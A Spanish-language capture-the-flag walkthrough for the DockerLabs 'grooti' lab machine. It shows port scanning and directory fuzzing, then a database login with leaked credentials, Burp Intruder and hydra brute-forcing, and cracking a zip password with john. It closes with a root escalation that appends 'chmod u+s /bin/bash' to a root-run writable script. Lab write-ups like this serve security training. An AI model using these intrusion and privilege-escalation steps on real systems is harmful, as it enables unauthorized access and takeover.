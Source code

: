 ## LEVANTAMOS LA MÁQUINA

Vamos a la página de 'Dockerlabs' y buscamos la máquina grooti, vamos al enlace y la descargamos:
```bash
https://dockerlabs.es/
https://mega.nz/file/OEUQEJjC#Ckg_Wxq7MqLHTfpjXgXBAJuIxla3qFqWv42Xw_qTQYA
```
![Nmap Scan](/images/grooti/grooti1.png)



Descarhamos el zip en nuestra máquina Linux, descomprimimos con:
```bash
unzip grooti.zip
```
y ejecutamos:

```bash
sudo bash auto_deploy.sh grooti.tar
```
![Nmap Scan](images/grooti/grroti2.png)

## FASE ENUMERACIÓN

Comenzamos con un scaneo de los puertos que tiene abiertos y los servicios que corren por ellos, así como sus versiones por si hay alguna vulnerabilidad asociada:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2
```
![Nmap Scan](images/grooti/grooti3.png)
![Nmap Scan](images/grooti/grooti4.png)

Vemos:

  -Puerto 22 con SSH versión 9.6p1 no vulnerable
  -Puerto 80 HTTP
  -Puerto 3306 mysql

Dado que no tenemos credenciales vamos a centrarno en el puerto 80 http, vamos a lanzar un 'whatweb' para saber que está utilizando la página:

```bash
 whatweb 172.17.0.2
```

![Nmap Scan](images/grooti/grooti5.png)


Nada interesante, salvo que utiliza apache, llegados a este punto toca mirar el código fuente por si hay algo interesante:

Abrimos la página web:
![Nmap Scan](images/grooti/grooti6.png)

con Ctrl+u abrimos el código fuente y vemos dos cosas interesantes:

![Nmap Scan](images/grooti/grooti7.png)

1- que un usuario rocket ha entrado en la base de datos, recordad que el puerto 3306 corre con mysql


2- tres rutas:"imagenes","documentos","archives"



No obstante vamos a hacer un fuzzing para ver que más rutas podemos encontrar:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x html,php,txt,bak,env,cgi,
```
![Nmap Scan](images/grooti/grooti8.png)

Vemos varias rutas con cosas interesante:
```
http://172.17.0.2/imagenes/ ----->http://172.17.0.2/imagenes/README.txt
```

Con un README.txt muy interesante:

![Nmap Scan](images/grooti/grooti9.png)

Ya tenemos un password: password1

```
http://172.17.0.2/archives/
```

Sin nada interesante


```
http://172.17.0.2/secret/
```
Con un listado de posibles usuarios:

![Nmap Scan](images/grooti/grooti10.png)

## INTRUSION EN BASE DE DATOS

Con todas las pistas vamos a intentar conectarnos a la base de datos con el usuario rocket y el password password1

```bash
mysql -h 172.17.0.2 -u rocket -ppassword1
```
Nos va a da un error y para corregirlo añadiremos --skip-ssl  quedando:
```bash
mysql -h 172.17.0.2 -u rocket -ppassword1 --skip-ssl
```
![Nmap Scan](images/grooti/grooti11.png)

Ahora que estamos conectados vamos a veer que bases de datos hay:
```
show databases;
```
encontramos `files_secret` vamos a utilizar esta base de datos

```bash
use files_secret;
```
listamos las tablas
```bash
show tables;
```
y mostramos todo lo que contiene la tabla `rutas`
```
select * from rutas;
```
![Nmap Scan](images/grooti/grooti12.png)

## FASE INTRUSIÓN
Encontrada una nueva ruta en la base de datos nos dirigimos a ella:

```
http://172.17.0.2/unprivate/secret/
```

vemos un panel donde podemos poner una frease y un numero del 1 al 100:
![Nmap Scan](images/grooti/grooti13.png)

Despues de mirar el código fuente, intentar inyectar cosas en el panel y no viendo nada raro, vamos a pasar la petición por burpsuite, dado que lo único que hace es descargar un archivo con el nombre password1.txt
el 1 varía y es el número que ponemos del 1 al 100. 

Capturamos la petición y vamos a lanzar un ataque de fuerza bruta a los numeros que introducimos
1- mandamos la petición al intruder:

![Nmap Scan](images/grooti/grooti14.png)

2-Seleccionamos dónde poner nuestro payload, concretamente en el número que metemos en el panael y le damos a "add"
![Nmap Scan](images/grooti/grooti15.png)

3-Cambiamos el payload type a Numers y from 1 to 100 para indicar que queremos solo numeros del 1 al 100
![Nmap Scan](images/grooti/grooti16.png)

y lanzamos el ataque con start attack

Cuando termina el ataque vamos a ordenar por el tamaño:
![Nmap Scan](images/grooti/grooti17.png)

Vemos que al poner el número 16 se dispara el tamaño de la respuesta y si miramos en ese número la respuesta vemos:

![Nmap Scan](images/grooti/grooti18.png)


Pues vamos a lanzar una petición con el número 16 y vemos que pasa, y nos descarga un zip protegido por cntraseña, vamos a romperla con 
john, lo primero usamos:

```bash
zip2john password16.zip > hash.txt
```
para generar el hash a romper del zip

y ahora intentamos romperlo con john:
```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
y rompe el hash:
![Nmap Scan](images/grooti/grooti19.png)

hacemos un unzip, metemos el password y nos descarga un txt:
![Nmap Scan](images/grooti/grooti20.png)

pues parece una lista de passwords, con esto vamos a probar fuerzabruta por ssh, antes hacemos una lista de users, os acordais de la página "http://172.17.0.2/secret/"
ahí teniamos tres usuarios: 
```
grooti
rocket
naia
```

vamos a meterlo en un archivo con el nombre users.txt y lanzamos un ataque con hidra, con esos usuarios y el archivo con los passwords que sacamos del zip:

![Nmap Scan](images/grooti/grooti21.png)

Nos conectamos por SSH como el usuario grooti a la IP victima:
```bash
ssh grooti@172.17.02
```
y cuando nos pide el password metemos
```
YoSoYgRoOt
```

Ya estamos dentro

##ESCALADA DE PRIVILEGIOS

Miro si estoy en algún grupo privilegiado con "id" y nada, si tengo algun privilegio sudo con "sudo -l" y nada, busco SUID y tampoco nada, listo usuarios y estamos root y yo xD
![Nmap Scan](images/grooti/grooti22.png)

Voy a detectar si hay algún proceso, copio en la victima en un archivo con nano este script:
```bash
https://github.com/lavafuego/herramientas/blob/main/detectar%20procesos%20en%20bash/procesos.sh
```
doy permisos de ejecución con chmod +x <nombre del archivo>
lo ejecuto:
![Nmap Scan](images/grooti/grooti23.png)

Veo que se ejecuta este proceso:
```
 /tmp/malicious.sh
```
miro los permisos que tengo sobre él, propietario root y puedo modificarlo
le añado una linea para modificar los permisos de la /bin/bash:
```bash
echo "chmod u+s /bin/bash" >>/tmp/malicious.sh
```
y espero a que vuelva a ejecutarse el proceso, cuando se ha ejecutado cambia los permisos de la /bin/bash y si lo ejecuto con la flag -p me convierto en root:
```bash
/bin/bash -p
```

![Nmap Scan](images/grooti/grooti24.png)


